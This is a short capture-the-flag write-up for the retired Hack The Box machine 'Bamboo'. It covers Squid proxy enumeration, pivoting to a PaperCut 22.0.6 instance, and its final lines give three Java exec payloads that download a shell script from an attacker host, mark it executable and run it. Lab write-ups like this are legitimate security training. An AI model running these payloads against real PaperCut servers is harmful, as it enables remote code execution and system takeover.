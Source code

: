 # Bamboo: Retired HTB Machine

## Enumeration

- Ports: 22,3128

Port 3128 runs squid proxy. So I used [this article](https://www.verylazytech.com/squid-port-3128) to pentest it.

Using [spose](https://github.com/aancw/spose) I discovered port 9191 was open through the proxy. So I used the proxy to access the page. 

This is running PaperCut 22.0.6, none of the exploits I checked on github worked so we had to manually exploit it. I used these 2 links:

- [Detect Exploit](https://www.exploit-db.com/exploits/51452)
- [Run The RCE](https://www.huntress.com/blog/critical-vulnerabilities-in-papercut-print-management-software)

Now the standard RCE won't work here, so you will have to execute each of these steps separately.

1. `java.lang.Runtime.getRuntime().exec("wget --content-disposition http://<ip>:<port>/shell.sh");`
2. `java.lang.Runtime.getRuntime().exec("chmod +x shell.sh");`
3. `java.lang.Runtime.getRuntime().exec("./shell.sh");`


